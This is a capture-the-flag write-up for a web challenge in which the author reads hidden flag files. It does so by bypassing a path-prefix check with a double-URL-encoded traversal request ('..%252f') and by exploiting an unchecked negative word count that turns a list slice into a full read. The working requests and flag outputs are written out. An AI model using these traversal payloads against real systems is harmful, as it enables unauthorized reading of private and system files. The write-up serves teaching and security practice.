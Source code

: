 # Novel Reader

## Challenge Description

We have many fun novels for ya...

## Solution

### Recon

The challenge presented a basic site allowing users to read novels, introducing a "donate" mechanic that unlocked more words in a novel based on credits.


Diving into the source code, I identified several endpoints:

ENDPOINT | OVERVIEW
-------------------
api/stats | Outputs our credits and word count
api/charge | Deducts our credits to add words
api/read/<path:name> | Outputs a novel (limited to paid-for words)
api/list-public-novels | Lists all public novels
api/list-private-novels | Lists all private novels


We are not allowed to read not public novels, which is clear from read function:

```python
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
```

And also the challenge restricted access to private novels and limited the output to a specified number of "words_balance" (which is the number of words we "paid" for")

```python
buf = readFile(name).split(' ')
buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
```
The flags are hidden in a private novel /private/A-Secret-Tale.txt and in /flag.txt

### Step 1:

The if-statement in the read function hinted at a Local File Inclusion (LFI) vulnerability. 
The goal was to find a way to bypass this check. 
Simple attempts like
```
/api/read/public/../flag.txt
```

failed due to unpacking to
```
/api/read/flag.txt
```

And that can not pass the if-statement.

So, after some tinkering with encodings and what can decode the decoder `urllib.parse.unquote`, which is used in source, the one string, that worked, was `%252f` for a slash
```
GET /api/read/public/..%252f..%252f..%252fflag.txt 

{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```

## Step 2

Attempting the same with A-Secret-Tale.txt revealed a limited output:
```json
{"msg":"Once.... Charge your account to unlock more of the novel!","success":true}
```

Even after purchasing all the words with the initial 100 tokens, the output remained restricted:
``json
{"msg":"Once a upon time there was a flag. The flag.... Charge your account to unlock more of the novel!","success":true}
```

So, we need to find another vulnerability, and read this file to the end.

So, after examining the line in code, which gives the output again:
```python
buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
```

I saw the basic python trick, where we can set our array indexes in negative, and that would mean "the last index n from the end".

So, something like `array[0:-1]` will actually read from first index to before last one. And guess what? There is no check for negative numbers in `api/charge` endpoint!

```python
nwords = request.args.get('nwords')
    if(nwords):
        nwords = int(nwords[:10])
        price = nwords * 10
        if(price <= session['credit']):
            session['credit'] -= price
            session['words_balance'] += nwords
```

So we can simply subtract our words_balance to -1, and after that we can read our flag

```
GET /api/read/public/..%252fprivate/A-Secret-Tale.txt

{"msg":"Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!","success":true}
```


In conclusion, Novel Reader 1 and Novel Reader 2 challenges, while not overly difficult, required a deep understanding of Python backend and basic knowledge of LFI
